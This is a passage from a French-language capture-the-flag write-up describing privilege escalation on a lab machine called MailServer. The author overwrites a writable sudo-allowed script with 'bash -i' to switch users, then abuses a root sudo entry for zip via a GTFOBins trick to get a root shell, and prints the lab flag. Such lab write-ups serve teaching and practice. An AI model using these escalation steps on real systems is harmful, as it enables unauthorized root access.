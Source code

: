 ```bash
echo "List of disks:"
echo "                    "

/usr/bin/lsblk

echo "--------------------"
```

Ce qui nous intéresse c'est le fait que `bob` puisse le lancer avec l'autre compte :

```shellsession
bob@MailServer:~$ sudo -l
Matching Defaults entries for bob on MailServer:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User bob may run the following commands on MailServer:
    (my2user) NOPASSWD: /bin/bash /opt/scripts/check.sh
```

Comme on a les droits d'écriture sur le script j'ai juste remplacé toutes les commandes présentes par `bash -i`.

Une fois connecté avec `my2user` on a une nouvelle entrée sudo à portée de main :

```shellsession
bob@MailServer:~$ sudo -u my2user /bin/bash /opt/scripts/check.sh
sudo: setrlimit(RLIMIT_CORE): Operation not permitted
my2user@MailServer:/home/bob$ id
uid=1001(my2user) gid=1001(my2user) groups=1001(my2user)
my2user@MailServer:/home/bob$ sudo -l
Matching Defaults entries for my2user on MailServer:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User my2user may run the following commands on MailServer:
    (root) NOPASSWD: /usr/bin/zip
```

On trouve vite fait un [GTFObin](https://gtfobins.github.io/gtfobins/zip/) pour cette commande :

```shellsession
my2user@MailServer:~$ mkdir yolo; sudo /usr/bin/zip yolo /etc/hosts -T -TT 'sh #'
  adding: etc/hosts (deflated 33%)
# id 
uid=0(root) gid=0(root) groups=0(root)
# cd /root
# ls
1_flag.txt
# cat 1_flag.txt

       .88888.                          dP           dP          dP       
      d8'   `88                         88           88          88       
      88        .d8888b. .d8888b. .d888b88           88 .d8888b. 88d888b. 
      88   YP88 88'  `88 88'  `88 88'  `88           88 88'  `88 88'  `88 
      Y8.   .88 88.  .88 88.  .88 88.  .88    88.  .d8P 88.  .88 88.  .88 
       `88888'  `88888P' `88888P' `88888P8     `Y8888'  `88888P' 88Y8888' 
      oooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo
                                                                          
        Mail server is rooted.
        You got the first flag: 2c393307906f29ee7fb69e2ce59b4c8a
        Now go to the web server and root it.
```
